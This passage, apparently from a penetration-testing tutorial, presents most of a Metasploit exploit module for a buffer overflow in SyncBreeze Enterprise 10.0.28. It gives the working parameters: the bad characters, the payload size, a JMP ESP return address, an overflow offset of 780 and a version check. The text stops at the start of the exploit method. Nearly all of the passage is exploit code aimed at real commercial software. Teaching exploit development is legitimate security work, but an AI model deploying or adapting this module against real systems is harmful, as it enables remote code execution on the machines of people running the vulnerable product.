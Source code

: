 Putting all the parts together gives us a complete Metasploit exploit module for the SyncBreezeEnterprise vulnerability.

##
# This module requires Metasploit: http://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##
class MetasploitModule < Msf::Exploit::Remote
 Rank = ExcellentRanking
 include Msf::Exploit::Remote::HttpClient
 def initialize(info = {})
 super(update_info(info,
 'Name' => 'SyncBreeze Enterprise Buffer Overflow',
 'Description' => %q(
 This module ports our python exploit of SyncBreeze Enterprise 10.0.28 to MSF.
 ),
 'License' => MSF_LICENSE,
 'Author' => [ 'Offensive Security', 'offsec' ],
 'References' =>
 [
 [ 'EDB', '42886' ]
 ],
 'DefaultOptions' =>
 {
 'EXITFUNC' => 'thread'
 },
 'Platform' => 'win',
 'Payload' =>
 {
 'BadChars' => "\x00\x0a\x0d\x25\x26\x2b\x3d",
 'Space' => 500
 },
 'Targets' =>
 [
 [ 'SyncBreeze Enterprise 10.0.28',
 {
 'Ret' => 0x10090c83, # JMP ESP -- libssp.dll
 'Offset' => 780
 }]
 ],
 'Privileged' => true,
 'DisclosureDate' => 'Oct 20 2019',
 'DefaultTarget' => 0))
 register_options([Opt::RPORT(80)])
 end
 def check
 res = send_request_cgi(
 'uri' => '/',
 'method' => 'GET'
 )
 if res && res.code == 200
 product_name = res.body.scan(/(Sync Breeze Enterprise v[^<]*)/i).flatten.first
 if product_name =~ /10\.0\.28/
 return Exploit::CheckCode::Appears
 end
 end
 return Exploit::CheckCode::Safe
 end
 def exploit